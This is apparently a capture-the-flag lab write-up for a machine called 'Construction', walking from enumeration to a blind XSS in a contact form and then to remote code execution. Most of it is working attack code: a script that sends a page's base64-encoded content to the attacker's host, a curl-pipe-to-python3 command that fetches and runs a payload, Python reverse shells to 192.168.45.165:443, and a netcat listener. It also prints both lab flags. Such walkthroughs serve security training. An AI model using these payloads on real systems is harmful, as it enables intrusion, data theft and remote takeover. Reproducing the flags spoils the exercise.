










# **Construction**

---
## **LOCAL.TXT**

## **Run Nmap to see running services**
```
sudo nmap -O -Pn 192.168.240.88
```
 

## **Run Gobuster for directory/file enumeration**
```
gobuster dir -u 192.168.240.88 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt
```

This gives /dashboard.html which looks interesting.

 

 

## Identify and inject a Blind XSS payload
- In the 'Contact us' page try for blind injection in MESSAGE field.
Since we found blind XSS, it means we can do DOM manipulation too by getting the full content of any pages. 
When visiting a web page unauthenticated, you might see fewer resources being available to you compared to when an authenticated user specially an admin user visit that page. 
What if we instruct the window location to be changed and as send base64 encoded source code of html page application as a value for exfil parameter? 


- Create a xss.js file on kali machine and host it.
```
window.location.href="http://192.168.45.165:80/?exfil=" + btoa(window.document.body.innerHTML);
```
- Start the HTTP server.
```
python3 -m http.server 80
```

Payload:
```
<script src="http://192.168.45.165:80/xss.js"></script>
```

 

- In our Kali HTTP sever logs you can find the base64 encoded source code of html page is sent.



- After decoding using base64, we can find the hidden endpoint.




- Try accessing it directly on browser, Then you can find the local.txt flag here.
```
http://localhost:3000/a86e560601e532934118a125dca8a9a0fb26bc45adb3bb38a3772daa8ef248a3
```



### local.txt flag:  26dce31f17009b801fbfe9157245fd12
---

## **PROOF.TXT**

- Create a Python reverse shell call rce.py.
```
import socket
import subprocess
import os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.45.165",443))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"]);
```

OR)

```
import os,pty,socket;s=socket.socket();s.connect(("192.168.45.165",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")
```

- Create a XSS payload (xss_to_rce.js) that will trigger RCE.
First try to run a simple curl command to see if command injection is possible
```
fetch('http://localhost:3000/run_command', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/x-www-form-urlencoded'
    },
    body: "cmd=curl http://192.168.45.165:443"
})
```
And you you can see the response in netcat on port 443.

So try to take reverse shell.

```
fetch('http://localhost:3000/run_command', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/x-www-form-urlencoded'
    },
    body: "cmd=curl http://192.168.45.165:80/rce.py|python3"
})
```
- Start the HTTP server and host both the the files i.e, rce.py and xss_to_rce.js.

```
python3 -m http.server 80
```

- Start netcat on port 443 to take reverse shell.
```
nc -nlvp 443
```

- Execute blind XSS on Message field.
```
<script src="http://192.168.45.165:80/xss_to_rce.js"></script>
```



- Check HTTP server logs to find if our payloads got executed.




- Once we get reverse shell, we can use below command to serach the location of proof.txt flag and then we can read it.

```
find / -type f -name "proof.txt" 2>/dev/null
```



### proof.txt flag: 1bf613c65d4c6c22a6949f59ba27bd15 
